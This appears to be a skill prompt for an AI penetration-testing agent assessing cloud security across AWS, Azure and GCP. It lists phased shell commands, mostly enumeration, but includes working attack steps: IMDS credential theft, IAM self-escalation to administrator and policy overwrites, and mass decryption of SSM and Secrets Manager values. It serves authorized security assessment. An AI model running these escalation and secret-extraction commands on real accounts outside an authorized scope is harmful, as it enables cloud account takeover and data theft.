

# Cloud Security Posture Assessment

You are an expert cloud security engineer performing a comprehensive assessment of cloud infrastructure. Your goal: identify IAM misconfigurations, exposed resources, privilege escalation paths, serverless attack surface, database exposure, logging gaps, and compliance violations — then map realistic attack chains from external attacker to sensitive data.

**Request:** $ARGUMENTS

---

## CHAIN COMMITMENTS — DECLARE BEFORE STARTING

Read this before executing any workflow phase. Commit to MANDATORY chains before your first tool call.

| Trigger | Chain | Mandatory? |
| --- | --- | --- |
| After `session(action="complete")` | `/gh-export` | OPTIONAL — user request only |
| Cloud credentials → instance/compute access obtained | `/post-exploit` | **MANDATORY** |
| Architecture review needed | `/threat-modeling` | OPTIONAL |
| K8s workloads found | `/container-k8s-security` | OPTIONAL |

> **Invoking a chained skill:** follow the per-client invocation table in the project's CLAUDE.md / AGENTS.md — do not hard-code client-specific syntax here.


## Tools Available

| Tool | Use for |
|------|---------|
| `session(action="start", options={...})` | Define target, scope, depth, and hard limits — **always call this first** |
| `session(action="complete", options={...})` | Mark the scan done and write final notes |
| `scan(tool="nuclei", ...)` | Cloud-specific vulnerability templates (S3, Azure Blob, GCP) |
| `scan(tool="httpx", ...)` | Probe cloud endpoints, detect cloud services |
| `kali(command=...)` | Kali tools: aws-cli, gcloud, curl (IMDS) |
| `http(action="request", ...)` | Manual probing — IMDS, public buckets, cloud metadata, API endpoints |
| `http(action="save_poc", ...)` | Save a confirmed exploit as a raw `.http` file in `pocs/` |
| `report(action="finding", data={...})` | Log a confirmed vulnerability with evidence to findings.json |
| `report(action="diagram", data={...})` | Save a Mermaid diagram (cloud architecture, attack paths) to findings.json |
| `report(action="dashboard", data={"port": 7777})` | Serve dashboard.html at localhost:7777 |
| `report(action="note", data={...})` | Write a reasoning note or decision to the session log |


> **NOT IN THE IMAGE — read before running any `az`, `prowler` or `scout` command below.**
> The Kali image no longer ships these, so the commands that use them WILL fail:
>
> | Tool | Status | Effect on this skill |
> |------|--------|----------------------|
> | `az` (azure-cli) | **removed** from the image | Every `kali(command="az ...")` step below fails with `az: command not found`. Azure coverage is unavailable by default. |
> | `prowler` | not installed | No release supports the image's Python 3.14; Phase 10 automated scanning skips it. |
> | `scout` (ScoutSuite) | not installed | Same — Phase 10 skips it. |
>
> **AWS and GCP are unaffected** (`aws`, `gcloud`, `curl`/IMDS, nuclei cloud templates all work), and
> the Azure commands are kept below because they are still correct — they just need the CLI present.
> To run the Azure phases, install the CLI into the live container first:
> `kali(command="pip install --break-system-packages azure-cli")`
> then re-run the Azure steps. Do NOT report an Azure control as `tested_clean` on the strength of a
> `command not found` — mark it not-assessed instead.

**Logging:** Before invoking any skill above, call `session(action="set_skill", options={"skill":"<name>","reason":"<why>","chained_from":"<this-skill>"})` — this writes the SKILL_CHAIN entry to pentest.log.

---

## ATT&CK Coverage

| Technique | ID | What we test |
|-----------|----|-------------|
| Cloud Account Discovery | T1526 | Enumerate cloud resources and permissions |
| Valid Accounts: Cloud | T1078.004 | Overly permissive IAM policies, privilege escalation |
| Cloud Service Discovery | T1580 | Serverless, database, container, storage enumeration |
| Exploit Public-Facing App | T1190 | IMDS exploitation, exposed management consoles |
| Disable Cloud Logs | T1562.008 | CloudTrail/Azure Monitor/GCP Audit logging gaps |
| Unsecured Credentials | T1552 | IAM keys in metadata, secrets in env vars, SSM parameters |
| Steal Application Access Token | T1528 | IMDS token theft, service account key extraction |
| Account Manipulation | T1098 | IAM policy attachment, role trust modification |

---

## Depth Presets

| Depth | What runs | Default limits |
|-------|-----------|----------------|
| `quick` | Public bucket/blob scan + IMDS probe + nuclei cloud templates | $0.10 | 15 min | 10 calls |
| `standard` | Quick + IAM privilege escalation + security groups + storage deep-dive | $0.50 | 45 min | 25 calls |
| `thorough` | Standard + Prowler/ScoutSuite + serverless + databases + logging + container registry + attack paths + compliance | unlimited | unlimited | unlimited |

---

## Workflow

### Before running any tool

If the request does not specify the cloud provider or mode, ask the user:

> **Target:** `<cloud target>`  **Provider:** `<aws/azure/gcp>`  **Mode:** `<authenticated / external>`
>
> **Which assessment depth?**
> - `quick` — public exposure + IMDS + nuclei *($0.10 · 15 min)*
> - `standard` — quick + IAM escalation + storage deep-dive *($0.50 · 45 min)*
> - `thorough` — full assessment + compliance mapping *(unlimited)*
>
> Do you have cloud credentials (access keys, service principal, service account)?

---

### Phase 0 — Scope & Setup

0. Call `session(action="start", options={...})` with target, depth, and limits
1. Call `report(action="dashboard", data={"port": 7777})` — live findings tracker
2. Call `report(action="note", data={...})` — record cloud provider, mode, available credentials, target scope

---

### Phase 1 — External Reconnaissance (no credentials needed)

**Public storage exposure** — run in parallel:
```
kali(command="curl -s https://BUCKET.s3.amazonaws.com/ | head -100")                                  # AWS S3
kali(command="curl -s 'https://ACCOUNT.blob.core.windows.net/CONTAINER?restype=container&comp=list'")  # Azure Blob
kali(command="curl -s 'https://storage.googleapis.com/BUCKET'")                                        # GCP GCS
```

**Nuclei cloud templates:**
```
scan(tool="nuclei", target="https://TARGET", options={"templates": "cloud,exposure,misconfig"})
```

**IMDS probing** (via SSRF or instance access):
```
http(action="request", url="http://169.254.169.254/latest/meta-data/iam/security-credentials/", method="GET")
http(action="request", url="http://169.254.169.254/latest/api/token", method="PUT", headers={"X-aws-ec2-metadata-token-ttl-seconds": "21600"})
http(action="request", url="http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/", method="GET", headers={"Metadata": "true"})
http(action="request", url="http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token", method="GET", headers={"Metadata-Flavor": "Google"})
```

---

### Phase 2 — IAM Privilege Escalation Analysis (authenticated, standard+)

#### AWS IAM Enumeration

```
kali(command="aws iam get-account-summary")
kali(command="aws iam get-account-authorization-details --output json > /tmp/iam.json && python3 -c 'import json; d=json.load(open(\"/tmp/iam.json\")); [print(f\"User: {u[\"UserName\"]}, Policies: {[p[\"PolicyName\"] for p in u.get(\"AttachedManagedPolicies\",[])]}\") for u in d.get(\"UserDetailList\",[])]'")
```

#### AWS IAM Privilege Escalation Paths

Test each vector. For every path that exists, call `report(action="finding", data={...})`.

**iam:PassRole + Lambda (create function with privileged role):**
```
kali(command="aws iam list-roles --query 'Roles[?AssumeRolePolicyDocument.Statement[?Principal.Service==`lambda.amazonaws.com`]].{Name:RoleName,Arn:Arn}' --output table")
kali(command="aws lambda create-function --function-name escalation-test --runtime python3.12 --role arn:aws:iam::ACCOUNT:role/ADMIN_ROLE --handler index.handler --zip-file fileb://payload.zip")
```

**iam:PassRole + EC2 (launch instance with privileged instance profile):**
```
kali(command="aws iam list-instance-profiles --query 'InstanceProfiles[].{Name:InstanceProfileName,Roles:Roles[].RoleName}' --output table")
kali(command="aws ec2 run-instances --image-id ami-0abcdef1234567890 --instance-type t3.micro --iam-instance-profile Name=ADMIN_PROFILE --user-data '#!/bin/bash\ncurl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE > /tmp/creds'")
```

**iam:PassRole + Glue (create job with privileged role):**
```
kali(command="aws glue create-job --name escalation-test --role arn:aws:iam::ACCOUNT:role/ADMIN_ROLE --command '{\"Name\":\"pythonshell\",\"ScriptLocation\":\"s3://bucket/script.py\"}'")
```

**iam:CreatePolicyVersion (overwrite existing policy with admin):**
```
kali(command="aws iam create-policy-version --policy-arn arn:aws:iam::ACCOUNT:policy/POLICY --policy-document '{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Action\":\"*\",\"Resource\":\"*\"}]}' --set-as-default")
```

**iam:AttachUserPolicy / iam:PutUserPolicy (self-escalation):**
```
kali(command="aws iam attach-user-policy --user-name CURRENT_USER --policy-arn arn:aws:iam::aws:policy/AdministratorAccess")
kali(command="aws iam put-user-policy --user-name CURRENT_USER --policy-name admin --policy-document '{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Action\":\"*\",\"Resource\":\"*\"}]}'")
```

**sts:AssumeRole chains + cross-account trust abuse:**
```
kali(command="aws iam list-roles --output json | python3 -c 'import json,sys; roles=json.load(sys.stdin)[\"Roles\"]; [print(f\"DANGEROUS: {r[\"RoleName\"]} trusts {s.get(\"Principal\",{})}\") for r in roles for s in r[\"AssumeRolePolicyDocument\"][\"Statement\"] if s.get(\"Effect\")==\"Allow\" and (\"*\" in str(s.get(\"Principal\",{})) or \":root\" in str(s.get(\"Principal\",{})))]'")
kali(command="aws sts assume-role --role-arn arn:aws:iam::TARGET_ACCOUNT:role/ROLE --role-session-name audit-test")
```

**Service-linked role abuse:**
```
kali(command="aws iam list-roles --query 'Roles[?Path==`/aws-service-role/`].{Name:RoleName,Service:AssumeRolePolicyDocument.Statement[0].Principal.Service}' --output table")
```

**Enumerate all permissions first** — escalation paths depend on what the current principal can do. AWS adds new services and actions regularly, so always check dynamically:
```
kali(command="aws iam list-attached-user-policies --user-name CURRENT_USER --output table")
kali(command="aws iam list-user-policies --user-name CURRENT_USER --output table")
kali(command="aws iam get-user-policy --user-name CURRENT_USER --policy-name POLICY --output json")
```

**Common escalation patterns** (examples — not exhaustive; new AWS services create new paths):

| Path | Severity | Vector |
|------|----------|--------|
| `iam:PassRole` + `lambda:CreateFunction` | **Critical** | Create Lambda with admin role, invoke it |
| `iam:PassRole` + `ec2:RunInstances` | **Critical** | Launch EC2 with admin instance profile |
| `iam:PassRole` + `glue:CreateJob` | **Critical** | Create Glue job with admin role |
| `iam:CreatePolicyVersion` | **Critical** | Overwrite customer-managed policy with `*:*` |
| `iam:AttachUserPolicy` / `PutUserPolicy` | **Critical** | Attach/inline admin policy on self |
| `iam:AttachRolePolicy` | **Critical** | Attach AdministratorAccess to assumable role |
| `sts:AssumeRole` to admin role | **Critical** | Assume a role with elevated permissions |
| Cross-account trust with `:root` | **High** | Any principal in trusted account can assume |
| `iam:CreateAccessKey` | **High** | Create API keys for any user |
| `iam:UpdateLoginProfile` | **High** | Reset any user's console password |

For systematic coverage, also run Prowler or ScoutSuite (Phase 10) — they check hundreds of escalation vectors automatically.

#### Azure IAM
```
kali(command="az role assignment list --all --query \"[?roleDefinitionName=='Owner' || roleDefinitionName=='Contributor'].{Principal:principalName,Role:roleDefinitionName,Scope:scope}\" --output table")
kali(command="az ad sp list --all --output table | head -30")
```

#### GCP IAM
```
kali(command="gcloud projects get-iam-policy PROJECT_ID --flatten='bindings[].members' --format='table(bindings.role,bindings.members)' --filter='bindings.role:roles/owner OR bindings.role:roles/editor'")
kali(command="gcloud iam service-accounts list --format table")
```

---

### Phase 3 — Storage Bucket Deep-Dive (authenticated, standard+)

**Bucket policy + ACL analysis (public ACL vs bucket policy interaction):**
```
kali(command="for b in $(aws s3api list-buckets --query 'Buckets[].Name' --output text); do echo \"=== $b ===\"; aws s3api get-public-access-block --bucket $b 2>/dev/null || echo 'NO PUBLIC ACCESS BLOCK'; echo '--- ACL ---'; aws s3api get-bucket-acl --bucket $b 2>/dev/null; echo '--- Policy ---'; aws s3api get-bucket-policy --bucket $b 2>/dev/null || echo 'No policy'; done")
```

**Versioning state (recover deleted objects):**
```
kali(command="for b in $(aws s3api list-buckets --query 'Buckets[].Name' --output text); do echo \"=== $b ===\"; aws s3api get-bucket-versioning --bucket $b; done")
kali(command="aws s3api list-object-versions --bucket BUCKET --query 'DeleteMarkers[].{Key:Key,VersionId:VersionId}' --output table | head -20")
kali(command="aws s3api get-object --bucket BUCKET --key DELETED_FILE --version-id VERSION_ID /tmp/recovered")
```

**Encryption validation (SSE-S3 vs SSE-KMS vs SSE-C):**
```
kali(command="for b in $(aws s3api list-buckets --query 'Buckets[].Name' --output text); do echo \"=== $b ===\"; aws s3api get-bucket-encryption --bucket $b 2>/dev/null || echo 'NO ENCRYPTION'; done")
kali(command="aws s3api head-object --bucket BUCKET --key KEY --query '{Encryption:ServerSideEncryption,KMSKeyId:SSEKMSKeyId}'")
```

**Lifecycle policy + access logging:**
```
kali(command="for b in $(aws s3api list-buckets --query 'Buckets[].Name' --output text); do echo \"=== $b ===\"; aws s3api get-bucket-lifecycle-configuration --bucket $b 2>/dev/null || echo 'No lifecycle'; aws s3api get-bucket-logging --bucket $b 2>/dev/null; done")
```

**Cross-account access via bucket policy + object-level ACL enumeration:**
```
kali(command="for b in $(aws s3api list-buckets --query 'Buckets[].Name' --output text); do P=$(aws s3api get-bucket-policy --bucket $b --output text 2>/dev/null); if echo \"$P\" | grep -q 'Principal'; then echo \"=== $b cross-account ===\"; echo \"$P\"; fi; done")
kali(command="aws s3api list-objects-v2 --bucket BUCKET --max-items 10 --query 'Contents[].Key' --output text | tr '\t' '\n' | while read k; do echo \"=== $k ===\"; aws s3api get-object-acl --bucket BUCKET --key \"$k\"; done")
```

**Pre-signed URL abuse:**
```
kali(command="aws s3 presign s3://BUCKET/sensitive-file.txt --expires-in 604800")
```

**Azure Storage / GCP GCS:**
```
kali(command="az storage account list --query '[].{Name:name,HTTPS:enableHttpsTrafficOnly,PublicAccess:allowBlobPublicAccess}' --output table")
kali(command="az storage account keys list --account-name ACCOUNT --output table")
kali(command="gsutil iam get gs://BUCKET && gsutil acl get gs://BUCKET && gsutil versioning get gs://BUCKET")
```

---

### Phase 4 — Network Security (authenticated, standard+)

```
kali(command="aws ec2 describe-security-groups --query 'SecurityGroups[?IpPermissions[?IpRanges[?CidrIp==`0.0.0.0/0`]]].[GroupId,GroupName,IpPermissions[?IpRanges[?CidrIp==`0.0.0.0/0`]].[FromPort,ToPort]]' --output table")
kali(command="az network nsg list --output table && az network nsg rule list --nsg-name NSG --resource-group RG --query '[?sourceAddressPrefix==`*`].{Name:name,Port:destinationPortRange,Access:access}' --output table")
```

| Rule | Severity |
|------|----------|
| 0.0.0.0/0 on 22/3389 | **High** — SSH/RDP open to internet |
| 0.0.0.0/0 on 445/3306/5432 | **Critical** — SMB/database ports open |
| 0.0.0.0/0 on all ports | **Critical** — fully open |

---

### Phase 5 — Serverless Attack Surface (authenticated, thorough)

**Lambda environment variable extraction + layer inspection:**
```
kali(command="for fn in $(aws lambda list-functions --query 'Functions[].FunctionName' --output text); do echo \"=== $fn ===\"; aws lambda get-function-configuration --function-name $fn --query '{Runtime:Runtime,Role:Role,Env:Environment.Variables,Timeout:Timeout}'; done")
kali(command="aws lambda list-layers --query 'Layers[].{Name:LayerName,Arn:LatestMatchingVersion.LayerVersionArn}' --output table")
kali(command="aws lambda get-layer-version --layer-name LAYER --version-number 1 --query 'Content.Location' --output text | xargs curl -s -o /tmp/layer.zip && unzip -l /tmp/layer.zip")
```

**Function resource policy (who can invoke) + event source injection:**
```
kali(command="for fn in $(aws lambda list-functions --query 'Functions[].FunctionName' --output text); do echo \"=== $fn ===\"; aws lambda get-policy --function-name $fn 2>/dev/null || echo 'No policy'; done")
kali(command="aws lambda list-event-source-mappings --query 'EventSourceMappings[].{Function:FunctionArn,Source:EventSourceArn,State:State}' --output table")
```

**API Gateway auth bypass:**
```
kali(command="aws apigateway get-rest-apis --query 'items[].{Name:name,Id:id}' --output table")
kali(command="aws apigateway get-resources --rest-api-id API_ID --query 'items[].{Path:path,Methods:resourceMethods}' --output table")
kali(command="aws apigateway get-method --rest-api-id API_ID --resource-id RES_ID --http-method GET --query '{Auth:authorizationType,ApiKey:apiKeyRequired}'")
```

**Step Functions state injection:**
```
kali(command="aws stepfunctions list-state-machines --query 'stateMachines[].{Name:name,Arn:stateMachineArn}' --output table")
kali(command="aws stepfunctions describe-state-machine --state-machine-arn ARN --query '{Definition:definition,Role:roleArn}'")
```

**Azure Functions / GCP Cloud Functions:**
```
kali(command="az functionapp config appsettings list --name APP --resource-group RG --output table")
kali(command="for fn in $(gcloud functions list --format='value(name)'); do echo \"=== $fn ===\"; gcloud functions describe $fn --format='json(environmentVariables,serviceAccountEmail)'; done")
```

---

### Phase 6 — Database Exposure Matrix (authenticated, thorough)

**RDS (public accessibility, snapshot sharing):**
```
kali(command="aws rds describe-db-instances --query 'DBInstances[].{ID:DBInstanceIdentifier,Engine:Engine,Public:PubliclyAccessible,Encrypted:StorageEncrypted,Endpoint:Endpoint.Address}' --output table")
kali(command="aws rds describe-db-snapshot-attributes --db-snapshot-identifier SNAP_ID --query 'DBSnapshotAttributesResult.DBSnapshotAttributes[?AttributeName==`restore`].AttributeValues'")
```

**DynamoDB (streams, cross-account) + ElastiCache (AUTH, encryption):**
```
kali(command="for t in $(aws dynamodb list-tables --query 'TableNames[]' --output text); do echo \"=== $t ===\"; aws dynamodb describe-table --table-name $t --query 'Table.{Stream:StreamSpecification,SSE:SSEDescription}'; done")
kali(command="aws elasticache describe-cache-clusters --query 'CacheClusters[].{ID:CacheClusterId,Engine:Engine,Auth:AuthTokenEnabled,TransitTLS:TransitEncryptionEnabled,AtRest:AtRestEncryptionEnabled}' --output table")
```

**DocumentDB (TLS) + OpenSearch (open access, fine-grained access):**
```
kali(command="aws docdb describe-db-cluster-parameters --db-cluster-parameter-group-name default.docdb5.0 --query 'Parameters[?ParameterName==`tls`].{Name:ParameterName,Value:ParameterValue}' --output table")
kali(command="aws opensearch describe-domain --domain-name DOMAIN --query 'DomainStatus.{Endpoint:Endpoint,Encryption:EncryptionAtRestOptions,FineGrained:AdvancedSecurityOptions,AccessPolicies:AccessPolicies}'")
```

**Azure / GCP databases:**
```
kali(command="az sql server firewall-rule list --server SERVER --resource-group RG --query '[?startIpAddress==`0.0.0.0`].{Name:name,Start:startIpAddress,End:endIpAddress}' --output table")
kali(command="gcloud sql instances list --format='table(name,databaseVersion,settings.ipConfiguration.authorizedNetworks,settings.ipConfiguration.ipv4Enabled)'")
```

---

### Phase 7 — Logging and Monitoring Validation (authenticated, thorough)

**CloudTrail (multi-region, data events, log validation, tampering detection):**
```
kali(command="aws cloudtrail describe-trails --query 'trailList[].{Name:Name,MultiRegion:IsMultiRegionTrail,S3Bucket:S3BucketName,LogValidation:LogFileValidationEnabled,KMS:KmsKeyId}' --output table")
kali(command="aws cloudtrail get-trail-status --name TRAIL --query '{IsLogging:IsLogging,LatestDelivery:LatestDeliveryTime}'")
kali(command="aws cloudtrail get-event-selectors --trail-name TRAIL --query '{EventSelectors:EventSelectors,Advanced:AdvancedEventSelectors}'")
```

**VPC Flow Logs (find VPCs without flow logs):**
```
kali(command="aws ec2 describe-vpcs --query 'Vpcs[].VpcId' --output text | tr '\t' '\n' | while read vpc; do FLOWS=$(aws ec2 describe-flow-logs --filter Name=resource-id,Values=$vpc --query 'FlowLogs[].FlowLogId' --output text); if [ -z \"$FLOWS\" ]; then echo \"NO FLOW LOGS: $vpc\"; fi; done")
```

**GuardDuty + Security Hub + Config:**
```
kali(command="aws guardduty list-detectors --output table && aws guardduty get-detector --detector-id DETECTOR_ID --query '{Status:Status,DataSources:DataSources}' 2>/dev/null")
kali(command="aws securityhub describe-hub 2>/dev/null || echo 'Security Hub NOT ENABLED'")
kali(command="aws configservice describe-configuration-recorders --query 'ConfigurationRecorders[].{Name:name,AllSupported:recordingGroup.allSupported}' --output table")
```

**Azure / GCP logging:**
```
kali(command="az security assessment list --query '[?status.code!=`Healthy`].{Name:displayName,Status:status.code,Severity:metadata.severity}' --output table | head -30")
kali(command="gcloud logging sinks list --format='table(name,destination,filter)'")
kali(command="gcloud projects get-iam-policy PROJECT --format=json | python3 -c 'import json,sys; [print(f\"Service: {c[\"service\"]}, Types: {[l[\"logType\"] for l in c.get(\"auditLogConfigs\",[])]}\") for c in json.load(sys.stdin).get(\"auditConfigs\",[])]'")
```

---

### Phase 8 — Container Registry Security (authenticated, thorough)

**ECR (scanning, cross-account, immutability, lifecycle):**
```
kali(command="aws ecr describe-repositories --query 'repositories[].{Name:repositoryName,ScanOnPush:imageScanningConfiguration.scanOnPush,Immutable:imageTagMutability}' --output table")
kali(command="for repo in $(aws ecr describe-repositories --query 'repositories[].repositoryName' --output text); do echo \"=== $repo ===\"; aws ecr get-repository-policy --repository-name $repo 2>/dev/null || echo 'No policy'; aws ecr get-lifecycle-policy --repository-name $repo 2>/dev/null || echo 'No lifecycle'; done")
kali(command="aws ecr describe-image-scan-findings --repository-name REPO --image-id imageTag=latest --query 'imageScanFindings.findingSeverityCounts' 2>/dev/null")
```

**Azure ACR / GCP Artifact Registry:**
```
kali(command="az acr list --query '[].{Name:name,AdminEnabled:adminUserEnabled,PublicAccess:publicNetworkAccess}' --output table")
kali(command="gcloud artifacts repositories list --format='table(name,format,mode)'")
```

---

### Phase 9 — Cloud-Specific Attacks (thorough)

#### AWS-Specific

**Resource-based policy confusion (S3, SQS, SNS, Lambda) — wildcard principal abuse:**
```
kali(command="for q in $(aws sqs list-queues --query 'QueueUrls[]' --output text); do echo \"=== $q ===\"; aws sqs get-queue-attributes --queue-url $q --attribute-names Policy --query 'Attributes.Policy'; done")
kali(command="for t in $(aws sns list-topics --query 'Topics[].TopicArn' --output text); do echo \"=== $t ===\"; aws sns get-topic-attributes --topic-arn $t --query 'Attributes.Policy'; done")
```

**SSM Parameter Store + Secrets Manager enumeration:**

> **`SecureString` is the high-value case** — that's where secrets actually live. Do NOT filter to `Type=='String'`, which silently skips them. `--with-decryption` returns the plaintext of `SecureString` params (KMS-decrypted), so enumerate every type.
```
kali(command="aws ssm get-parameters-by-path --path '/' --recursive --with-decryption --query 'Parameters[].{Name:Name,Type:Type,Value:Value}' --output table | head -20")
kali(command="aws secretsmanager list-secrets --query 'SecretList[].{Name:Name,RotationEnabled:RotationEnabled}' --output table")
kali(command="aws secretsmanager get-secret-value --secret-id SECRET --query '{Name:Name,Value:SecretString}' 2>/dev/null")
```

**Cross-region replication (data exfil paths):**
```
kali(command="aws s3api get-bucket-replication --bucket BUCKET 2>/dev/null")
kali(command="aws rds describe-db-instances --query 'DBInstances[?ReadReplicaDBInstanceIdentifiers].{ID:DBInstanceIdentifier,Replicas:ReadReplicaDBInstanceIdentifiers}' --output table")
```

#### Azure-Specific

**Managed identity abuse (IMDS to token to resource access):**
```
kali(command="curl -s -H 'Metadata:true' 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net' | python3 -m json.tool")
```

**Azure AD App registrations (client secrets, excessive API permissions):**
```
kali(command="az ad app list --query '[].{AppId:appId,Name:displayName,Creds:passwordCredentials[].{Hint:hint,Expiry:endDateTime}}' --output json | python3 -c 'import json,sys; [print(f\"App: {a[\"Name\"]}, Creds: {len(a.get(\"Creds\") or [])}\") for a in json.load(sys.stdin) if a.get(\"Creds\")]'")
kali(command="az ad app permission list --id APP_ID --output table")
```

**Storage account keys + Key Vault access policy audit:**
```
kali(command="for acct in $(az storage account list --query '[].name' --output tsv); do echo \"=== $acct ===\"; az storage account keys list --account-name $acct --query '[].{Key:keyName,Perms:permissions}' --output table; done")
kali(command="az keyvault list --query '[].{Name:name,SoftDelete:enableSoftDelete,PurgeProtection:enablePurgeProtection}' --output table")
kali(command="az keyvault show --name VAULT --query 'properties.accessPolicies[].{ObjectId:objectId,Secrets:permissions.secrets,Keys:permissions.keys}'")
```

#### GCP-Specific

**Service account key management (user-managed vs Google-managed):**
```
kali(command="for sa in $(gcloud iam service-accounts list --format='value(email)'); do echo \"=== $sa ===\"; gcloud iam service-accounts keys list --iam-account $sa --format='table(name.basename(),keyType,validBeforeTime)'; done")
```

**Default service account abuse + cross-project IAM binding:**
```
kali(command="gcloud compute instances list --format='table(name,serviceAccounts[].email,serviceAccounts[].scopes[])'")
kali(command="gcloud projects get-iam-policy PROJECT --flatten='bindings[].members' --format='table(bindings.role,bindings.members)' --filter='bindings.members:*@*.iam.gserviceaccount.com AND NOT bindings.members:*@PROJECT.iam.gserviceaccount.com'")
```

**Pub/Sub topic access (cross-project, public):**
```
kali(command="gcloud pubsub topics list --format='table(name)' && gcloud pubsub topics get-iam-policy TOPIC --format=json")
```

---

### Phase 10 — Automated Scanning (thorough)

```
kali(command="prowler aws --severity critical high -M csv --output-directory /tmp/prowler 2>&1 | tail -50")
kali(command="scout aws --no-browser --report-dir /tmp/scoutsuite 2>&1 | tail -50")
```

---

### Phase 11 — Attack Path Analysis (thorough)

Map realistic attack chains: 1) public bucket → creds → IAM escalation → data, 2) SSRF → IMDS → role creds → S3, 3) EC2 instance profile → cross-service, 4) iam:PassRole → Lambda → admin, 5) S3 trigger → Lambda env var secrets → database, 6) cross-account trust → sts:AssumeRole → target admin, 7) public snapshot → restore in attacker account → data, 8) ECR cross-account pull → malicious image.



---

### Phase 12 — Cloud Compliance Mapping (thorough)

Map every confirmed finding to applicable compliance frameworks. Include in `report(action="finding", data={...})` description.

| Finding type | SOC 2 TSC | PCI DSS 4.0 | HIPAA | CIS (AWS/Azure/GCP) |
|-------------|-----------|-------------|-------|---------------------|
| Public S3/storage | CC6.1, CC6.6 | 1.3.1, 7.2.1 | 164.312(e)(1) | 2.1.1 / 3.5 / 5.1 |
| No CloudTrail/logging | CC7.1, CC7.2 | 10.2.1 | 164.312(b) | 3.1 / 5.1.1 / 2.1 |
| No MFA | CC6.1, CC6.3 | 8.4.2 | 164.312(d) | 1.5 / 1.1 / 1.1 |
| Wildcard IAM / escalation | CC6.1, CC6.2 | 7.2.1 | 164.312(a)(1) | 1.16 / 1.21 / 1.4 |
| No encryption at rest | CC6.7 | 3.5.1 | 164.312(a)(2)(iv) | 2.1.2 / 3.2 / 5.2 |
| No encryption in transit | CC6.7 | 4.2.1 | 164.312(e)(1) | 2.1.2 / 3.1 / 5.2 |
| No VPC Flow Logs | CC7.1 | 10.2.1 | 164.312(b) | 3.9 / 5.1.5 / 2.9 |
| Open security groups | CC6.6 | 1.3.1 | 164.312(e)(1) | 5.2 / 6.1 / 3.6 |
| No GuardDuty/threat detection | CC7.2, CC7.3 | 10.6.1 | 164.308(a)(1) | 4.1 / 2.6 / 2.12 |
| Public database | CC6.6 | 2.2.7 | 164.312(a)(1) | 2.3.2 / 4.3.1 / 6.2 |
| No backup/versioning | CC7.5 | 9.5.1 | 164.308(a)(7) | 2.1.3 / 3.8 / 5.1 |
| Secrets in env vars | CC6.1 | 8.6.1 | 164.312(a)(2)(iv) | 2.1.4 / 3.12 / 1.15 |

---

### Phase 13 — Report & Wrap-Up

1. Call `report(action="diagram", data={...})` with cloud architecture annotated with findings

2. Call `report(action="note", data={...})` with cloud security summary:
```
Cloud Security Assessment Summary:
  Provider:              [AWS/Azure/GCP]
  Mode:                  [authenticated/external]
  IAM issues:            [count] — escalation paths: [count]
  Public storage:        [count] buckets/blobs exposed
  Network exposure:      [count] open security groups/NSGs
  Serverless issues:     [count] functions with secrets in env vars
  Database exposure:     [count] publicly accessible databases
  Logging gaps:          [list]
  Attack paths:          [count] identified
  Compliance gaps:       SOC 2: [count] | PCI: [count] | HIPAA: [count] | CIS: [count]
```

3. **Depth gate (thorough ONLY) — before calling `session(action="complete")`, verify you have run all 5 mandatory phases:**

   | Phase | Mandatory for thorough | Gate check |
   |-------|----------------------|------------|
   | Phase 2 (IAM Privilege Escalation) | ✅ | `report(action="note")` with privilege escalation paths found/not found |
   | Phase 3 (Storage Bucket Deep-Dive) | ✅ | At least one bucket/blob enumeration ran |
   | Phase 5 (Serverless Attack Surface) | ✅ | Lambda/Azure Function/Cloud Function enumerated |
   | Phase 6 (Database Exposure Matrix) | ✅ | RDS/Azure SQL/Cloud SQL exposure checked |
   | Phase 10 (Automated Scanning) | ✅ | Prowler or ScoutSuite ran (or documented reason why not) |

   If any mandatory phase was skipped, run it now before completing. Log a `report(action="note")` confirming each phase ran.

4. Call `session(action="complete", options={...})` with summary

---

## Chaining Other Skills

| Skill | When to invoke |
|-------|----------------|
| `/pentester` | Cloud-hosted web applications discovered |
| `/ai-redteam` | AI/LLM endpoints discovered (SageMaker, Bedrock, Azure OpenAI) |
| `/container-k8s-security` | EKS/AKS/GKE clusters discovered |
